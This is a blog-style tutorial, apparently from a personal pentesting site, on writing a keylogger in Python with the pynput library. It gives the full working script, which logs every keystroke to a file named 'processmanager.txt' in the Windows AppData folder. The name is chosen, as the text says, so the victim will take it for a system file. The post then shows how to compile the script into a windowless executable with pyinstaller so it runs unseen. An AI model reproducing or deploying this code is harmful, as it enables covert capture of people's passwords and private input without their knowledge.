 ```yaml
---
title: Writing a keylogger using python
date: 2020-12-24 11:09:11 GMT+2
categories: [Development, Pentesting Tools]
tags: [ethical hacking, python]     # TAG names should always be lowercase
image: /assets/img/posts/keylogger/keylogger.png
---
```


## What is keylogger ?
Keylogger is a type of monitoring software designed to record keystrokes made by a user. This keylogger records the information you type into a website or application and send to back to a third party whether that is a criminal, law enforcement or IT department.

## Writing the script
### Step 1: Importing required modules

* os: The OS module in python provides functions for interacting with the operating system. OS, comes under Python's standard utility modules. This module provides a portable way of using operating system dependent functionality. The *os* and *os. path* modules include many functions to interact with the file system.
* pynput: This library allows us to control and monitor input devices (such as keyboard and mouse). Therefore, we use this library to automate the process of capturing keystrokes.

```python
#Python code snippet
import os
from pynput.keyboard import Listener
```

### Step 2: Setting the listener
We set the listener to capture the keystrokes then we send each key individually to the write_file function that we will implement later to save the keystrokes logs at a file.

```python
#Python code snippet
try:
    with Listener(on_press=write_file) as listener:
        listener.join()
except KeyboardInterrupt:
    exit(0)
```

### Step 3: Implement write_file() function
We define a path variable that where the keystrokes logs file will be hidden whether the operating system is windows or linux. In case of windows OS, we hide the file at "C:\Users\Username\AppData\Roaming\processmanager.txt". While in case of linux, we hide the file at "/root/processmanager.txt". Notice that we name the file "processmanager.txt" so the victim may be tricked and thinks it is an operating system file and accordingly will not open or delete it.  
Then, we implement write_file() function that takes each key individually as a parameter then open the specified file and save each key inside that file. Also, we handle some of special keys (such as backspace, space, ...) so that ease for us the reading of file when the victim presses on anyone of that keys.


```python
#Python code snippet
path = os.environ['appdata'] +'\\processmanager.txt'       # For Windows
#path = '/root/processmanager.txt'                                 # For Linux

def write_file(key):
    with open(path, 'a') as f:
            k = str(key).replace("'", "")
            if k.find('backspace') > 0:
                f.write(' Backspace ')
            elif k.find('enter') > 0:
                f.write('\n')
            elif k.find('shift') > 0:
                f.write(' Shift ')
            elif k.find('space') > 0:
                f.write(' ')
            elif k.find('caps_lock') > 0:
                f.write(' caps_lock ')
            elif k.find('ctrl') > 0:
                f.write(' Ctrl ')
            elif k.find('Key'):
                f.write(k)
```
## The complete script
After assembling all the steps together, here is the final script.

```python
import os
from pynput.keyboard import Listener

path = os.environ['appdata'] +'\\processmanager.txt'       # For Windows
#path = '/root/processmanager.txt'                                 # For Linux

def write_file(key):
    with open(path, 'a') as f:
            k = str(key).replace("'", "")
            if k.find('backspace') > 0:
                f.write(' Backspace ')
            elif k.find('enter') > 0:
                f.write('\n')
            elif k.find('shift') > 0:
                f.write(' Shift ')
            elif k.find('space') > 0:
                f.write(' ')
            elif k.find('caps_lock') > 0:
                f.write(' caps_lock ')
            elif k.find('ctrl') > 0:
                f.write(' Ctrl ')
            elif k.find('Key'):
                f.write(k)

try:
    with Listener(on_press=write_file) as listener:
        listener.join()
except KeyboardInterrupt as e:
    print(e)
```

## Script output
We test our script on windows 10 virtual machine. First, we transfere the python file from kali linux machine to windows 10 machine using any method you prefere (such as web server, usb, ...) then we compile the python file to exe using pyinstaller. After that, we run keylogger.exe on the background and start typing, and as expected we found the "processmanager.txt" file at the specified path "C:\Users\Username\AppData\Roaming\processmanager.txt" and all the keystrokes are saved at that file. When we finished, we terminate keylogger program from task manager by select it and click on end task.

```bash
pip3 install pyinstaller				# Install pyinstaller
pyinstaller keylogger.py --onefile --noconsole		# Compile python file to exe
```

![script_output](/assets/img/posts/keylogger/script_output.png)
